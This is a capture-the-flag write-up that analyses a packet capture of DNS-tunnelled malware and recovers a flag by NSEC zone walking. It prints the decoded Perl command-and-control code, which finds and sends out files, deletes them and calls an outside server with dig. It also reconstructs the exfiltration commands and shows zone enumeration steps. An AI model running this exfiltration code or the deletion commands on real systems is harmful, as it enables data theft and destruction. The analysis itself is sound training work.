



# Cyber Security Challenge 2016: Insecure	

**Category:** Network security  
**Points:** 70  
**Challenge designer:** Adriaan Dens   
**Description:**  
> Our company "Dunking Nuke Sauces", which makes the best spicy sauces in the country, has recently lost the digital copy of my Old Grannys secret spicy sauce recipy. The IT department has informed me, the CEO of Dunking Nuke Sauces, that there might still be a chance to get recipy back!  
We found some data exfiltration malware on our systems, so the only thing we need to do is hack their communications and find our key back!  
I expect the key in 32 hours.  
Sir Edward Nuke, CEO of Dunking Nuke Sauces  
Dunk it or get nuked!  
Flag format: cscb{...}

>Hint: "These challenges are made for walking, and that's just what they'll do." ~ Nancy Sinatra

[Pcap file Here](challenge-source-files/insecure.pcap)

## Write-up
pening up the PCAP, we exclusively see DNS traffic. 



Between all these DNS queries, we see some calls to a domain called nuked.be.



In the screenshot, we see a query to some sort of registration, followed by some sort of bot command. This might be the malware of which Edward Nuke was talking about. 

Let us filter out those commands with a little scapy program.

```python
from scapy.all import *                                 
import re                                               
                                                        
pcap = PcapReader("insecure.pcap")                      
for packet in pcap:                                     
    if packet[DNS].ancount > 0:                         
        if re.search('nuked.be.', packet[DNSQR].qname): 
            for answer in packet[DNS].an:               
                print "Answer: %s" % answer.rdata       
    else: # Query                                       
        if re.search('nuked.be.', packet[DNSQR].qname): 
            print "Query: %s" % packet[DNSQR].qname
```

Looks like malware alright:
```
Query: nuked.be.
Query: nuked.be.
Query: nuked.be.
Answer: 54.172.156.249
Query: 3060547069917483.registration.nuked.be.
Query: 3060547069917483.registration.nuked.be.
Query: 3060547069917483.cmd.nuked.be.
Answer: 24633d22636d642e6e756b65642e62652e223b
Query: 3060547069917483.cmd.nuked.be.
Answer: 73756220707b7061636b2022482a222c706f707d
Query: 3060547069917483.cmd.nuked.be.
Answer: 73756220757b756e7061636b2022482a222c706f707d
Query: 3060547069917483.cmd.nuked.be.
Answer: 7375622073657b245f3d706f703b6024642b74726965733d3120245f2e24752e246324775c40247660666f726561636828756e7061636b2228413630292a222c245f297d
Query: 3060547069917483.cmd.nuked.be.
Answer: 73756220647b736520752022454e44222e24752e22454e44227d
Query: 3060547069917483.cmd.nuked.be.
Answer: 73756220637b7365207520706f707d
Query: 3060547069917483.cmd.nuked.be.
Answer: 73756220657b245f3d706f703b6d61707b6320245f7d73706c69742f5c6e2f3b26647d
Query: 3060547069917483.cmd.nuked.be.
Answer: 737562207a7b60247b647d66696c65732e247624775c402476607d
Query: 3060547069917483.cmd.nuked.be.
Answer: 65286066696e64202f202d747970652066202d6e616d6520227265636970792e74787422202d6578656320636174207b7d202b60293b
Query: 53656372657420496e6772656469656e742023313333373a20436c75622d.3060547069917483.cmd.nuked.be.
Query: 53656372657420496e6772656469656e742023313333373a20436c75622d.3060547069917483.cmd.nuked.be.
Query: 4d617465.3060547069917483.cmd.nuked.be.
Query: 4d617465.3060547069917483.cmd.nuked.be.
Query: 454e4433303630353437303639393137343833454e44.3060547069917483.cmd.nuked.be.
Answer: Stored in sikrit zone!
Query: 3060547069917483.cmd.nuked.be.
Answer: 65286066696e64202f202d747970652066202d6e616d6520227265636970792e74787422202d6578656320726d207b7d202b60293b
Query: 454e4433303630353437303639393137343833454e44.3060547069917483.cmd.nuked.be.
Answer: Stored in sikrit zone!
Query: 3060547069917483.cmd.nuked.be.
Answer: 6528606563686f2022596f7520676f74206e756b656422203e207e2f6e756b65642e74787460293b
...
```

We thus see some kind of registration and then using that registration number, it calls for commands.

With a good eye, you will notice that all answers and some parts of the query are in hexadecimal. Let us decode those answers.

```python
from scapy.all import *
from binascii import unhexlify
import re

pcap = PcapReader("insecure.pcap")
for packet in pcap:
    if packet[DNS].ancount > 0:
        if re.search('nuked.be.', packet[DNSQR].qname):
            for answer in packet[DNS].an:
                raw_data = answer.rdata
                try: # Crashes on IP addr
                    raw_data = unhexlify(raw_data)
                except TypeError:
                    pass
                print "Answer: %s" % raw_data
    else: # Query
        query = packet[DNSQR].qname
        if re.search('nuked.be.', query):
            prefix_match = re.match('([a-fA-F0-9]+)\.(\d+)\.cmd\.nuked\.be\.', query)
            if prefix_match:
                print "Query: %s.%s.nuked.be." % (unhexlify(prefix_match.group(1)), prefix_match.group(2))
            else:
                print "Query: %s" % query
```

```
Query: nuked.be.
Query: nuked.be.
Query: nuked.be.
Answer: 54.172.156.249
Query: 3060547069917483.registration.nuked.be.
Query: 3060547069917483.registration.nuked.be.
Query: 3060547069917483.cmd.nuked.be.
Answer: $c="cmd.nuked.be.";
Query: 3060547069917483.cmd.nuked.be.
Answer: sub p{pack "H*",pop}
Query: 3060547069917483.cmd.nuked.be.
Answer: sub u{unpack "H*",pop}
Query: 3060547069917483.cmd.nuked.be.
Answer: sub se{$_=pop;`$d+tries=1 $_.$u.$c$w\@$v`foreach(unpack"(A60)*",$_)}
Query: 3060547069917483.cmd.nuked.be.
Answer: sub d{se u "END".$u."END"}
Query: 3060547069917483.cmd.nuked.be.
Answer: sub c{se u pop}
Query: 3060547069917483.cmd.nuked.be.
Answer: sub e{$_=pop;map{c $_}split/\n/;&d}
Query: 3060547069917483.cmd.nuked.be.
Answer: sub z{`${d}files.$v$w\@$v`}
Query: 3060547069917483.cmd.nuked.be.
Answer: e(`find / -type f -name "recipy.txt" -exec cat {} +`);
Query: Secret Ingredient #1337: Club-.3060547069917483.nuked.be.
Query: Secret Ingredient #1337: Club-.3060547069917483.nuked.be.
Query: Mate.3060547069917483.nuked.be.
Query: Mate.3060547069917483.nuked.be.
Query: END3060547069917483END.3060547069917483.nuked.be.
Answer: Stored in sikrit zone!
Query: 3060547069917483.cmd.nuked.be.
Answer: e(`find / -type f -name "recipy.txt" -exec rm {} +`);
Query: END3060547069917483END.3060547069917483.nuked.be.
Answer: Stored in sikrit zone!
Query: 3060547069917483.cmd.nuked.be.
Answer: e(`echo "You got nuked" > ~/nuked.txt`);
Query: END3060547069917483END.3060547069917483.nuked.be.
Answer: Stored in sikrit zone!
Query: 3060547069917483.cmd.nuked.be.
Answer: sub p{pack "H*",pop}
Query: nuked.be.
...
```

Our assumption about the registration and the commands seem correct. We see the command and control sending back some Perl code looking for "recipy.txt" files and a command deleting those files.

Interesting to note as well is that the output seems to be stored in a secret DNS zone.

Let us list the commands send over the wire:
```perl
$c="cmd.nuked.be.";
sub p{pack "H*",pop}
sub u{unpack "H*",pop}
sub se{$_=pop;`$d+tries=1 $_.$u.$c$w\@$v`foreach(unpack"(A60)*",$_)}
sub d{se u "END".$u."END"}
sub c{se u pop}
sub e{$_=pop;map{c $_}split/\n/;&d}
sub z{`${d}files.$v$w\@$v`}
e(`find / -type f -name "recipy.txt" -exec cat {} +`);
e(`find / -type f -name "recipy.txt" -exec rm {} +`);
e(`echo "You got nuked" > ~/nuked.txt`);
```

Making the code a bit more understandable, we get:
```perl
$c="cmd.nuked.be.";
sub unhexxie {
    my $hex_str = pop;
    my $str = pack("H*",$hex_str);
    return $str;
}
sub hexxie {
    my $str = pop;
    my $hex_str = unpack("H*", $str);
    return $str;
}
sub send_output {
    my $output = pop;
    # Splits a string into chunks of 60 chars
    foreach my $chunk (unpack"(A60)*", $output) {
        `$d+tries=1 $chunk.$u.$c$w\@$v`
    }
}
sub delimiter {
    my $hex_str = hexxie("END" . $u . "END");
    send_output($hex_str);
}
sub prep_and_send {
    my $str = pop;
    my $hex_str = hexxie($str);
    send_output($hex_str);
}
sub execute {
    my $output = pop;
    foreach my $line (split /\n/, $output) {
        prep_and_send($line);
    }
    delimiter();
}
sub something {
    `${d}files.$v$w\@$v`
}
execute(`find / -type f -name "recipy.txt" -exec cat {} +`);
execute(`find / -type f -name "recipy.txt" -exec rm {} +`);
execute(`echo "You got nuked" > ~/nuked.txt`);
```

Seems like the malware will evaluate the commands send from the DNS server.
However, we still need to figure out what those backtick commands are:
```perl
`$d+tries=1 $_.$u.$c$w\@$v`
`${d}files.$v$w\@$v`
```

We can fill in `$c`:
```perl
`$d+tries=1 $_.$u.cmd.nuked.be.$w\@$v`
`${d}files.$v$w\@$v`
```

Knowing that the malware works over DNS and having a very 'dig' looking command, we can make the assumption that `$d` is 'dig ':
```perl
`dig +tries=1 $_.$u.cmd.nuked.be.$w\@$v`
`dig files.$v$w\@$v`
```

From the pcap, we know the bot ID is always given in each command, so `$u` is probably the user:
```perl
`dig +tries=1 $_.3060547069917483.cmd.nuked.be.$w\@$v`
`dig files.$v$w\@$v`
```

We also notice that the malware always talks directly with the server itself, instead of using the DNS server of the (home) subnet. This can be done with the "@x.x.x.x" in 'dig'.
```perl
`dig +tries=1 $_.3060547069917483.cmd.nuked.be.$w @54.172.156.249`
`dig files.$v$w @54.172.156.249`
```

Almost there. The 'dig' command also allows one to define the Resource record type by just defining it after the query. Seems like a good fit for `$w`:
```perl
`dig +tries=1 $_.3060547069917483.cmd.nuked.be. TXT @54.172.156.249`
`dig files.$v TXT @54.172.156.249`
```

Given that we query the specific DNS server and recursive lookups are disabled, we know that the `$v` must be a zone on the DNS server. Although nothing prohibites running other zones besides 'nuked.be.' and child zones, we can at least try to see if 'files.nuked.be.' exists:

```
$ dig files.nuked.be. SOA 

; <<>> DiG 9.9.5-3ubuntu0.7-Ubuntu <<>> files.nuked.be. SOA
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 24812
;; flags: qr rd ra ad; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;files.nuked.be.			IN	SOA

;; ANSWER SECTION:
files.nuked.be.		47	IN	SOA	ns.files.nuked.be. hostmaster.files.nuked.be. 2016021801 300 300 300 300

;; Query time: 6 msec
;; SERVER: 8.8.8.8#53(8.8.8.8)
;; WHEN: Tue Mar 08 11:04:01 EST 2016
;; MSG SIZE  rcvd: 93
```

Success!


At this point, some knowledge about DNS and DNSSEC is expected. Basically, the question we are asking ourselves is "Can we see all files, ever, uploaded on that zone?".

And the answer is: "Yes, of course!".

Let us try AXFR:
```
$ dig files.nuked.be. AXFR

; <<>> DiG 9.8.3-P1 <<>> files.nuked.be. AXFR
;; global options: +cmd
; Transfer failed.
```

Does not seem to work. Another technique is (NSEC) zone walking, which can be done when DNSSEC is enabled.
```
$ dig files.nuked.be. SOA +dnssec

; <<>> DiG 9.9.5-3ubuntu0.7-Ubuntu <<>> files.nuked.be. SOA +dnssec
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 36224
;; flags: qr rd ra ad; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags: do; udp: 512
;; QUESTION SECTION:
;files.nuked.be.			IN	SOA

;; ANSWER SECTION:
files.nuked.be.		299	IN	SOA	ns.files.nuked.be. hostmaster.files.nuked.be. 2016021801 300 300 300 300
files.nuked.be.		299	IN	RRSIG	SOA 10 3 300 20160319170447 20160218170447 30851 files.nuked.be. A53ISoousihQvopuXlYexx3I0nwwjNiW9Us905qr5wKQX/GOQUxTou1x hm6RCLWLjqFjMSmrdi91Y26i/aQdtcedc8jk33DEJyWZuu17/CuYehFX MUIedWmxo+/0xrh1YsBpqQ/K2M/nnTJUFGNiSt3vL3nbTSoxLuC+iATt Vshj6taZAo0jWT0QvK7lw6+TMEdrKhvlk8k5JlNGwWWmOLHJBDaHxa2i nEb+vMzuW32jpVW1klITrX+zbkqDfwzYVOfN7NzNBpBj+kNplJIaiaX0 yZjr4dELrKemd7JkX1g/hF/nrEe+W16KItW7eEbLjROfUQiu5qctFYvI jHdD5g==

;; Query time: 124 msec
;; SERVER: 8.8.8.8#53(8.8.8.8)
;; WHEN: Tue Mar 08 11:04:48 EST 2016
;; MSG SIZE  rcvd: 395
```

Alright! Let us run an nsec walker on this zone.

```
$ ./ldns-walk -4 -f @ns.files.nuked.be files.nuked.be. | tee -a walking_zone.txt
files.nuked.be. 300 IN  NS  nsbackup.files.nuked.be.
files.nuked.be. 300 IN  NS  ns.files.nuked.be.
files.nuked.be. 300 IN  RRSIG   NS 10 3 300 20160306084328 20160205084328 30851 files.nuked.be. CBJfi78pvBnthsl7OQnHKFYefsMTKuswxDiZ2NA2wKMnXsbc1y1ZYxQMGoCEqWBEhL4/XV7shKsYR6q/IJ0Bb2BZn6Ob6qW+HDP6Lkye0W09y86+7GD/WTEBc2TcSTl9h1ilZYhJtxtfGph5rMJz8XdNdOv5ohmUIrxV9lRyI2FvnukRkZDPDjTyBnWMhYhmkeNAY0EFAEbIR4X5wQYMehcmXwWOiIpxEiyZ00TwzfR8EBMLbrpl4FlpINKWgPCNHRMA5suVYECoGaxKz/i8F2Tk8nGVlOkg5LMKtojoxyKB5XHqXmHfJ+7Iz7D8XX6xEub690YyhFyGPYuOEznA1A==
files.nuked.be. 300 IN  SOA ns.files.nuked.be. hostmaster.files.nuked.be. 2016012307 300 300 300 300
files.nuked.be. 300 IN  RRSIG   SOA 10 3 300 20160306084328 20160205084328 30851 files.nuked.be. G3TvLaVj2Fjkot8EE+KsUkcuzEo/NfeKUHLkEJ8hoHeWuLMBbwMXQA6CgTzdDkT0I7WFNg21mckm2J4l8Q6fgH2Bph5mBdPdAVj/Lxi6wcddxFiqTIAgactlXe8mCGzfc9kSKSUVA/BVQKi9yXuL9NlNaA+/B2Oro1yZ21TJM6C2ljqvT4nn6ob7xB/eDP19jYqqjExj7uoGnBwxpvKQFPChFle1uvyWsTfjvukAIW/KMsVyTqykDBTO69sxENKLwi/RDCDZxpn4Hllqx3AAMMHHAV4jgEKNp4ZI/ycQBtlW//NkbQVPc5JxJVDACNuv22G1SHu82XaE6n+Vyw04ig==
files.nuked.be. 300 IN  TXT "2824742c24762c24772c24642c24752c2463293d28272f746d702f6e756b3364272c276e756b65642e62652e272c272054585420272c27646967202b73686f727420272c302c30293b" "6966282d652474297b6f70656e20542c223c2474223b24753d3c543e7d656c73657b" "4b3a24753d696e742872616e64283130292a2831302a2a313529293b676f746f204b20696660246424752e726567697374726174696f6e2e24762477603b" "6f70656e20542c223e2474223b7072696e7420542024757d" "4c3a245f3d60246424752e636d642e247624775c402476603b732f5c227c5c6e2f2f673b" "24783d7061636b27482a273b6576616c24783b736c6565702031303b676f746f204c"
files.nuked.be. 300 IN  RRSIG   TXT 10 3 300 20160306084328 20160205084328 30851 files.nuked.be. k6lZPzuwBqmpam3ZTbRoZAYbFSXn3jVBxJQOBCgFP/N67rKEnv/8f1LKvrs9bdxMm6ZtwbX4B6+9JEuxYZE8iNQVBXzCt1fGSszwlBDy5sW6lv/K3Nn4hIc7eahAehqbB/39L0gVly22aHqEFG7FDRnEwaQfjD7EWNBaZ1CMUEq8PQjCrfmRMJe4d8t3f4Y+VhzSpKd/nxTeiZL5B4LuakO27htM878POx+jfylh/9ZTqCm0DWw3RLV2SxAV8x/kCPrM0lvJV739xFtWvAV/F5vaZ9i/7TQvjdCwpg1V+wOSjw8HCuww0CkwOMieM9Z8Gm4rB3gjkxorZdNMVSL/SA==
files.nuked.be. 300 IN  DNSKEY  256 3 10 AwEAAat6lMm8TvGMTbsqzQ/X5PtO6s320qqBcpIrjanqzKtvt3CELCuArT9gfUts1SMQqXwgEynPyzaP0MjVuQm1YKPIQOcMYGWo+gs4fFPWmCVFHiLvNSLvnJRxtWyJNJa+gYV8ljP6CzdZyYGNOeoJ29dhVMAfyGnTUTXiS4cG8hFf25iEw5euswNYaTfmD8Xs2IH28TLO1adOtJFJNQxTHTEbeqtH7PBlEEy0KXZ5PttXtzgOLgIUBHuEJiBrTWlFewNDKXQqFmak9CMlH+VQ9+CiKvO3GBhJJQ8BFcrm9nyrVjdpJ6Fr/J57ayy/rgl49Vm3+oDHZdSDlNPT7/q0JEs= ;{id = 30851 (zsk), size = 2048b}
...
```

And of course, we get a lot of output. Notice the use of the 'f' option to get the full resource records dumped.

Filtering on TXT records (we are actually not interested in all other RRs):
```
$ cat walking_zone.txt | perl -ne 'print if m#.files.nuked.be.\t300\tIN\tTXT#'
01ee2947261fcbde4b8bbce2b2a0fcdc.files.nuked.be.    300 IN  TXT "4772616e6e792051756f74652023313233373a20542765732070617320656e20636c617373652076657274652c20746f693f"
09daea219e57845a7f2fbae938416a70.files.nuked.be.    300 IN  TXT "5365637265742048696e742023343532323a204561742e20536c6565702e204861636b2e205265706561742e"
10dd6c30cedded46c3e2182b8a34350f.files.nuked.be.    300 IN  TXT "4772616e6e792051756f74652023323235343a20596f206d616d6120736f206661742c207368652061746520612077686f6c652050697a7a612e2e2e2e4875742e"
12577f2c24a8d4c30356106a9abef44f.files.nuked.be.    300 IN  TXT "4772616e6e792051756f74652023353839353a204920726561642053686f6b7567656b69206e6f20536f756d61206265666f726520796f75207765726520626f726e"
12cabc9a7f7f9bf840b40254003a29a3.files.nuked.be.    300 IN  TXT "4772616e6e792051756f74652023333539373a206e79616e206e79616e206e79616e206e79616e"
157bea37e1e2655a7475d435a2bc4043.files.nuked.be.    300 IN  TXT "4772616e6e792051756f74652023323435313a20416d61646575732073746f6c65206d7920737061726520726962732072656369707921"
1b57c06fcbbabc12aac75f7dbced7b71.files.nuked.be.    300 IN  TXT "4772616e6e792051756f74652023323334323a20596f206d616d6120736f206661742c207368652063757276657320737061636520616e642074696d652e"
24e0f37c07c15b1a2ab9c28dc806ebed.files.nuked.be.    300 IN  TXT "4772616e6e792051756f74652023363738363a20596f206d616d6120736f206661742c2068657220626c6f6f642074797065206973204e7574656c6c612e"
34aefcd28c3deff10a108bdfe45ba913.files.nuked.be.    300 IN  TXT "4772616e6e792051756f74652023323334353a20416c6d6120494949206973206265737420416c6d612e"
3bf3f94cf934d1cea96042a215f1a7c6.files.nuked.be.    300 IN  TXT "4772616e6e792051756f74652023393038363a205768656e20492077617320796f756e6765722c20776520616c6c206a75737420776f726b656420686172642e"
...
```

Looks like we got some records stored in hexadecimal notation. Decoding all records:
```
$ cat walking_zone.txt | perl -ne 'print if m#.files.nuked.be.\t300\tIN\tTXT#' | perl -nale '$_=$F[4];s/\"//g;print pack"H*",$_' 
Granny Quote #1237: T'es pas en classe verte, toi?
Secret Hint #4522: Eat. Sleep. Hack. Repeat.
Granny Quote #2254: Yo mama so fat, she ate a whole Pizza....Hut.
Granny Quote #5895: I read Shokugeki no Souma before you were born
Granny Quote #3597: nyan nyan nyan nyan
Granny Quote #2451: Amadeus stole my spare ribs recipy!
Granny Quote #2342: Yo mama so fat, she curves space and time.
Granny Quote #6786: Yo mama so fat, her blood type is Nutella.
Granny Quote #2345: Alma III is best Alma.
Granny Quote #9086: When I was younger, we all just worked hard.
Granny Quote #6044: I like my coffee, like I like my men. Black.
Secret Hint #7209: Add vodka for an extra punch
Granny Quote #3743: I firmly believe in the three second rule.
Granny Quote #4869: I ate mitraillettes before you were born, son!
Secret Hint #0488: Pluck tomatoes when red
Granny Quote #7999: Like I'll write my old recipes done?!
Granny Quote #5805: Yo mama so fat, she gave dracula diabeties
Granny Quote #8256: Eh Omar, la sauce, a part ou sur les frites?
Granny Quote #5634: Yo mama so fat, she blocks the WiFi signal.
Granny Quote #3337: Matt Stonie is my kind of guy
Granny Quote #2908: I prefer Burger King over McDo
Granny Hint #4674: Study at Tootsuki Academy if you want a future
Secret Ingredient #2062: Chocolate flakes
Granny Quote #1893: Samurai sauce is best sauce.
Granny Quote #8956: Quel klet ce pe
Secret Hint #4744: I always cook with Eddy Wally music!
Granny Quote #5896: Megumi is best girl.
Secret Hint #9666: Cook chicory together with meat balls for more flavor
Granny Quote #5755: Meat balls are a prime source of food
Granny Quote #5674: Hmmmmmmmm Donutssssssss
Granny Quote #7902: Ou tu sors, ou je te sors
Granny Quote #0234: I prefer Quick over McDo
Secret Ingredient #7587: Cocaine
Granny Recipe book: https://goo.gl/sIsd9u
Secret Hint #5698: Whenever in doubt, add more salt
Granny Quote #7623: Sais-pas moi, sauce Dallas
Granny Quote #8907: Yo mama so fat, she's got her own area code!
Secret Hint #5777: Reuse bacon grease for the next cooking!
Granny Quote #7485: I like guys with a big.... appetite.
Granny Quote #1233: Steak frites is life.
Secret Ingredient #1337: Club-Mate
Granny Quote #4843: Pour moi un grand paquet frites avec sauce svp
```
What is this Granny Recipe book at https://goo.gl/sIsd9u?



##Solution
cscb{DNSSEC_is_iNSECure_m'kay}

## Other write-ups and resources
